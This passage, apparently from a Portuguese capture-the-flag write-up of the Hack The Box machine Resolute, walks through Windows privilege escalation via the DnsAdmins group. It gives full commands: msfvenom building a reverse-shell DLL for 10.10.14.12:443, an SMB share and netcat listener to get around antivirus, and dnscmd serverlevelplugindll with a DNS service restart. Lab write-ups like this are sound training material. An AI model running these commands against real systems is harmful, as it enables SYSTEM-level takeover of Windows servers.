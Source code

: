 Ambos os serviços indicam **_(Pwn3d!)_**, O que significa que podemos executar commando tanto pelo crackmapexec em modo smb com o parametro "-x", como por WinRM. Mas como é mais directo por WinRM, não me vou privar...

Vimos na foto o tal grupo.

# Grupo MEGABANK\DnsAdmins

Este group permite aos seus membros configurar, iniciar, e parar o serviço dns do windows. O serviço DNS pode carregar configurações a partir de ficheiros.dll. E este serviço é iniciado com privilégios máximos de Authority System! Posto isso, é fácil elaborar um exploit para nos converter-mos em administrador da máquina. O commando que queremo que o alvo execute é um reverse shell

## Criação do ficheiro.dll malicioso

```powershell
[Environment]::Is64BitOperatingSystem
#>  True
```

A máquina é de 64 bits, portanto o reverse shell terá de 64 bits

```powershell
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.12 LPORT=443 -f dll -o rev.dll
```

Iremos agora transferir o ficheiro para a máquina alvo com, por exemplo, certutil:

![Antivirus bloqueia o rev.dll](Assets/HTB-Windows-Medium-Resolute/dnsadmin-blocked_by_antivirus.png)

OH SHIT! O antivírus está ativo... Temos 2 soluções, ou ofuscar o código (que pode levar alguma tentativas porque não fica um ficheiro limpo) ou partilhar um servidor Samba, porque o dll malicioso pode ser chamado a partir de fora da máquina alvo!

```powershell
sudo smbserver.py smbFolder $(pwd) -smb2support  # o reverse shell tem de se encontrar na pasta onde se executa o commando

sudo rlwrap nc -lvnp 443
```

```powershell
dnscmd /config /serverlevelplugindll \\10.10.14.12\smbFolder\rev.dll
#>  Registry property serverlevelplugindll successfully reset.
#>  Command completed successfully.

sc.exe stop dns
# Espere uns 5 segundos (Porque é Windows...)

sc.exe start dns
```
